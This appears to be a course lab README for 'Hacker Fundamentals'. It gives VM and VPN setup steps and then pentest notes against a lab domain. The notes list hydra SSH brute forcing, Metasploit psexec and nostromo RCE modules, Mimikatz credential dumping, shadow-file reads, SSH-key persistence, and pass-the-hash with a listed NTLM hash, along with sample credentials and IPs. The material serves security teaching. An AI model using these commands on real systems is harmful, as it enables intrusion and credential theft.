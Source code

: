 # Hacker-Fundamentals
Welcome to the Hacker Fundamentals lab setup page !

To be able to participate in the lab exercises and CTF in this course you will need to have:
* An OS on which you will download a VM 
* A VM, either VirtualBox or VMWare 

1) Downloading a VM 
* If you would like to download VirtualBox, please see the instructions at the following URL: 
  https://www.virtualbox.org/wiki/Downloads
* If you would like to download VirtualBox, please see the instructions at the following URL:
  https://www.vmware.com/products/workstation-player/workstation-player-evaluation.html

2) Download Kali VM Image
A Kali VM image has been provided to you at <URL>, depending on your VM of choice please download the appropriate file (VirtualBox or VMWare)
Once the file has downloaded, unzip the file contents and click on the kali-linux-rolling-virtualbox-amd64.vbox file in order to load the Kali image into VirtualBox and if you use VMWare, drag the file to the VMWare application.

3) Downloading a VPN profile 
On your Kali VM, Please visit <URL> , and download the vpn profile that the course instructors have assigned to you. 

4) Load the VPN profile 
Once the VPN profile has been downloaded on your Kali image, open terminal and type the following command :  ``` sudo openvpn --config your_vpn_file.ovpn ```
**Do not close the terminal window where you established a VPN connection, as that will close the connection**

5) Test the VPN connection
Open a new terminal window and type the following command: ```ping IP```, 
if you receive an ICMP response, the connection works and you are now in the lab environment.

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
  Captain Crunch - Network Pentest
May 29, 2023
--------------------------------

Information provided by client:

domain: captaincrunch.co
IP networks: 10.10.10.0/24, 10.10.30.0/24

blee : 3120f299755272e11e898989265a2196


External Reconnaissance
-----------------------

All whois information redacted by registrar

Monica Garfield works as developer at CC
	Mentions foxtrot container on LinkedIn
	DNS recon found foxtrot.captaincrunch.co host at 64.226.83.128

	Able to login to foxtrot (10.10.10.11) via ssh brute force as Monica!

	hydra -l monica -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.11:22 -t 4

	What if Monica is a user on a Windows system that she does dev work from?

	Let's try using metasploit as her to login to a windows hosts

	msfconsole
	search psexec
	use windows/smb/psexec
	set rhosts 10.10.30.11
	set smbdomain captaincrunch.co
	set smbuser monica.garfield
	set smbpass tinkerbell
	exploit



Mimikatz:

	shell
	cd c:\tools
	.\mimikatz.exe
	sekurlsa::logonpasswords

Impacket:

	impacket-psexec monica.garfield@10.10.30.11


DNS Recon
---------

fierce --domain captaincrunch.co
gobuster dns -d captaincrunch.co -w /usr/share/wordlists/amass/subdomains.lst -i

charlie.captaincrunch.co [64.226.83.119]
delta.captaincrunch.co [64.226.105.183]
echo.captaincrunch.co [64.226.83.135]
foxtrot.captaincrunch.co [64.226.83.128]
golf.captaincrunch.co [64.226.102.67]
india.captaincrunch.co [64.226.110.16]
juliet.captaincrunch.co [142.93.105.226]


Commands used:

cat external | cut -d " " -f 2 | tr -d "[" | tr -d "]" > external.ips
nmap -iL external.ips -Pn --top-ports=1000 --open -oN external.nmap


Internal Recon
--------------

Discovery:
	nmap -sn 10.10.10.0/24 > internal
	nmap -sn 10.10.30.0/24 >> internal
	cat internal | grep report | cut -d " " -f 5 > internal.ips

Port scans:

	nmap -iL internal.ips --top-ports=1000 --open -oN internal-top-ports.nmap

With Metasploit:

	msfdb init
	msfconsole
	db_nmap 10.10.10.0/24 -p-
	db_nmap 10.10.30.0/24 -p-


Interesting Services:

ssh is open (10.10.10.2, 10.10.10.3, 10.10.10.8, 10.10.10.9)
12345 open on 10.10.10.12
31337 open on 10.10.10.9 (likely web server httpd 2.4.38)
	Running wordpress
	WPScan confirmed vulnerabilities 
8000 is open  on 10.10.10.9
55555 open 10.10.10.13 (simplehttpserver ?)
	/credit contains ssh key for tigerwoods
	dirb http://10.10.10.13:55555 /usr/share/wordlists/dirb/small.txt

10.10.30.10 likely domain controller (domain: captaincrunch.co)
Windows hosts (10.10.30.11, 10.10.30.12)
6666 open on 10.10.30.11
5984 and 49153 open on 10.10.30.20 (unusual ports = interesting)
	5984 running couchdb 1.6.0 (RCE available!!)
	49153 running nostromo 1.9.6 (RCE available!!!)
		Exploited with Metasploit
		msfconsole
		use (multi/http/nostromo_code_exec
		set rhost 10.10.30.20
		set rport 32768
		set lhost tun0
		exploit
		

SSH keygen

	ssh-keygen
	enter - enter - enter
	ssh monica@10.10.10.11    tinkerbell
	nano ~/.ssh/authorized_keys
	paste PUBLIC key here
	exit 
	ssh -i private_key monica@10.10.10.11


Linux PrivEsc
	
	./linpeas.sh
	sudo -l
	sudo cat /etc/shadow

Tigerwoods lateral movement:

	ls -la
	chmod 600 tigerwoodskey
	ssh -i tigerwoods@10.10.10.10
	Try to put your private key in authorized_keys like before to get access with your private key

Windows Post Exploitation:

	net user
	net user /domain
	net group "Domain Admins" /domain
	net user ashlie.gwenette /domain
	
Pass the hash:
	impacket-psexec -no-pass -hashes :3120f299755272e11e898989265a2196 captaincrunch/blee@10.10.30.10
	
Domain Dump:
	impacket-secretsdump -no-pass -hashes :3120f299755272e11e898989265a2196 captaincrunch/blee@10.10.30.10


Commands:

	wpscan --url http://10.10.10.9:31337
	nikto -host 10.10.10.13 -port 55555

 	crackmapexec smb 10.10.30.11 -u monica.garfield -p tinkerbell -M lsassy
